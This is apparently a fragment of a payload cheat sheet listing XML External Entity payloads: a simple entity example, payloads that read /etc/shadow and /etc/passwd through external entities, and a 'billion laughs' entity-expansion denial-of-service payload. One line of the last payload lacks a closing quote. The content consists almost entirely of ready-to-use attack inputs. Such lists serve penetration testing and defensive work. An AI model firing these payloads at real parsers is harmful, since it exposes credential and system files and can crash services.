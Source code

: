     ```
    
    ### XXE: Entity Example
    
    ```
    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example "Doe"> ]>
     <userInfo>
      <firstName>John</firstName>
      <lastName>&example;</lastName>
     </userInfo>
    
    ```
    
    ### XXE: File Disclosure
    
    ```
    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
    <userInfo>
     <firstName>John</firstName>
     <lastName>&ent;</lastName>
    </userInfo>
    
    ```
    
    ### XXE: Denial-of-Service Example
    
    ```
    <!--?xml version="1.0" ?-->
    <!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    <tag>&lol9;</tag>
    
    ```
    
    ### XXE: Local File Inclusion Example
    
    ```
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
    
    ```
    